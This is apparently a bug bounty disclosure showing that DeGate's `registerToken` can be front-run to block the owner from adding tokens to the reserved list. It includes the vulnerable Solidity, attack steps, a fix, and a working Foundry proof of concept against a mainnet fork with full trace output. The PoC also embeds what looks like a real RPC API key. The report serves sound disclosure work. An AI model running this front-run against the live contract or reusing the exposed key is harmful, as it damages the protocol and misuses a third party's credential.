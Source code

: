 
# `registerToken` can be front-run causing token can not be added to `reservedTokens` list

Submitted on Mon Nov 20 2023 16:35:43 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #25886

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
```solidity
    function registerToken(
        ExchangeData.State storage S,
        address tokenAddress,
        bool isOwnerRegister
        )
        public
        returns (uint32 tokenID)
    {
        require(!S.isInWithdrawalMode(), "INVALID_MODE");
        require(S.tokenToTokenId[tokenAddress] == 0, "TOKEN_ALREADY_EXIST");

        if (isOwnerRegister) {
            require(S.reservedTokens.length < ExchangeData.MAX_NUM_RESERVED_TOKENS, "TOKEN_REGISTRY_FULL");
        } else {
            require(S.normalTokens.length < ExchangeData.MAX_NUM_NORMAL_TOKENS, "TOKEN_REGISTRY_FULL");
        }

        // Check if the deposit contract supports the new token
        if (S.depositContract != IDepositContract(0)) {
            require(S.depositContract.isTokenSupported(tokenAddress), "UNSUPPORTED_TOKEN");
        }

        // Assign a tokenID and store the token
        ExchangeData.Token memory token = ExchangeData.Token(tokenAddress);

        if (isOwnerRegister) {
            tokenID = uint32(S.reservedTokens.length);
            S.reservedTokens.push(token);
        } else {
            tokenID = uint32(S.normalTokens.length.add(ExchangeData.MAX_NUM_RESERVED_TOKENS));
            S.normalTokens.push(token);
        }
        S.tokenToTokenId[tokenAddress] = tokenID + 1;
        S.tokenIdToToken[tokenID] = tokenAddress;

        S.tokenIdToDepositBalance[tokenID] = 0;

        emit TokenRegistered(tokenAddress, tokenID);
    }
```

Everyone can call `registerToken` to register a token. If it is called by the owner, the token is added to `reservedTokens`, otherwise it is added to `normalTokens`. Once a token is added to `reservedTokens` or `normalTokens`, it cannot be added again.

Therefore, the attacker can add the token that the Owner expects to be added to `reservedTokens` to `normalTokens` first.

The attack process is as follows:

1. Owner call `registerToken` to register TokenA
2. The attacker observes that mempool recognizes the Owner's transaction, initiates a transaction with a higher gas price, and front-run executes `registerToken` to register TokenA.

## Impact

https://docs.degate.com/v/product_en/concepts/economic-security

Please refer to the above document for the difference between `reservedTokens` and `normalTokens`. The owner's inability to add tokens to `reservedTokens` may damage the stable run of the protocol.

## Risk Breakdown

Difficulty to Exploit: Easy

## Recommendation

Owner can convert `normalTokens` into `reservedTokens`, which can prevent this BUG. And it allows the Owner to have the ability to add `reservedTokens` in the future. (For example, if a Token becomes popular, consider upgrading it from `normalTokens` to `reservedTokens`).

## References
        
## Proof of concept
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

// main fork url
string constant MAINNET_RPC_URL = "https://eth-mainnet.g.alchemy.com/v2/TrnSBL14bW3BaXavojgbw69L0ZK2lbZ_";
uint256 constant MAINNET_BLOCK_NUMBER = 18614000;

// contract address
address constant ADDRESS_CONTRACT_ExchangeV3 = address(0x9C07A72177c5A05410cA338823e790876E79D73B);
address constant ADDRESS_CONTRACT_WETH = address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

// user address
address constant ADDRESS_USER_ExchangeV3Owner = address(0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD);
address constant ADDRESS_USER_Attacker = address(0xAACE);

interface IExchangeV3 {
    function registerToken(address tokenAddress) external returns (uint32);
}

contract YttriumzzDemo is Test {
    IExchangeV3 exchangeV3;

    function setUp() public {
        vm.selectFork(vm.createFork(MAINNET_RPC_URL, MAINNET_BLOCK_NUMBER));

        exchangeV3 = IExchangeV3(ADDRESS_CONTRACT_ExchangeV3);
    }

    function testYttriumzzDemo() public {
        // This POC assumes this scenario:
        //   The Owner wants to add WETH to the `reservedTokens` list and call the `registerToken` function.
        //   The Attacker checked that the mempool contained this transaction and frount-run call the `registerToken` function,
        //   causing WETH to be added to the `normalTokens` list.
        // 
        // In order to simplify the POC:
        //   The Attacker is executed first, instead of providing a high gas price to let the node execute in advance.
        //
        // Results:
        //   WETH is added to the `normalTokens` list, and the Owner's transaction execution fails.

        vm.startPrank(ADDRESS_USER_Attacker);
        uint32 tokenID = exchangeV3.registerToken(ADDRESS_CONTRACT_WETH);
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_ExchangeV3Owner);
        vm.expectRevert("TOKEN_ALREADY_EXIST");
        exchangeV3.registerToken(ADDRESS_CONTRACT_WETH);
        vm.stopPrank();

        assertTrue(tokenID > 32);
        console.log("tokenID: %s", tokenID);
    }
}
```

Output:

```shell
$ forge test --match-test testYttriumzzDemo -vvvv
[⠰] Compiling...
[⠑] Compiling 1 files with 0.8.19
[⠘] Solc 0.8.19 finished in 1.22s
Compiler run successful!

Running 1 test for test/YttriumzzDemo.sol:YttriumzzDemo
[PASS] testYttriumzzDemo() (gas: 138975)
Logs:
  tokenID: 60

Traces:
  [138975] YttriumzzDemo::testYttriumzzDemo()
    ├─ [0] VM::startPrank(0x000000000000000000000000000000000000AAce)
    │   └─ ← ()
    ├─ [102352] 0x9C07A72177c5A05410cA338823e790876E79D73B::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)
    │   ├─ [97353] 0xc56C1dfE64D21A345E3A3C715FFcA1c6450b964b::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [delegatecall]
    │   │   ├─ [89300] 0x2Bf7021a3Aa041e1a8a5082DB720d0202C70A3aE::5ac78334(0000000000000000000000000000000000000000000000000000000000000003000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc20000000000000000000000000000000000000000000000000000000000000000) [delegatecall]
    │   │   │   ├─ [5341] 0x54D7aE423Edb07282645e740C046B9373970a168::isTokenSupported(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [staticcall]
    │   │   │   │   ├─ [321] 0x8CCc06C4C3B2b06616EeE1B62F558f5b9C08f973::isTokenSupported(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [delegatecall]
    │   │   │   │   │   └─ ← 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   │   │   └─ ← 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   │   ├─ emit TokenRegistered(: 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, : 60)
    │   │   │   └─ ← 0x000000000000000000000000000000000000000000000000000000000000003c
    │   │   └─ ← 0x000000000000000000000000000000000000000000000000000000000000003c
    │   └─ ← 0x000000000000000000000000000000000000000000000000000000000000003c
    ├─ [0] VM::stopPrank()
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD)
    │   └─ ← ()
    ├─ [0] VM::expectRevert(TOKEN_ALREADY_EXIST)
    │   └─ ← ()
    ├─ [22427] 0x9C07A72177c5A05410cA338823e790876E79D73B::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2)
    │   ├─ [21912] 0xc56C1dfE64D21A345E3A3C715FFcA1c6450b964b::registerToken(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2) [delegatecall]
    │   │   ├─ [842] 0x2Bf7021a3Aa041e1a8a5082DB720d0202C70A3aE::5ac78334(0000000000000000000000000000000000000000000000000000000000000003000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc20000000000000000000000000000000000000000000000000000000000000001) [delegatecall]
    │   │   │   └─ ← 0x08c379a000000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000013544f4b454e5f414c52454144595f455849535400000000000000000000000000
    │   │   └─ ← "TOKEN_ALREADY_EXIST"
    │   └─ ← "TOKEN_ALREADY_EXIST"
    ├─ [0] VM::stopPrank()
    │   └─ ← ()
    ├─ [0] console::9710a9d0(0000000000000000000000000000000000000000000000000000000000000040000000000000000000000000000000000000000000000000000000000000003c000000000000000000000000000000000000000000000000000000000000000b746f6b656e49443a202573000000000000000000000000000000000000000000) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.22s

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

